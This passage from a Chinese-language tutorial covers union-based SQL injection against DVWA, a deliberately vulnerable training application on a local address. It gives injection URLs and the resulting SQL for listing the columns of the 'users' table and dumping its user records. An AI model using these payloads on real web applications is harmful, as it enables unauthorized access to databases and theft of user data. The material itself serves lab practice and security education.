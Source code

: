 ![](image/4.jpg)

### 获取数据库中某个表的字段

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(column_name)%20from%20Information_schema.columns%20where%20table_schema=%27dvwa%27%20and%20table_name=%27users%27%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(column_name) from Information_schema.columns where table_schema='dvwa' and table_name='users'#';
```

![](image/5.jpg)

### 获取数据库中某个表中的记录

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(user)%20from%20dvwa.users%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(user) from dvwa.users#';
```
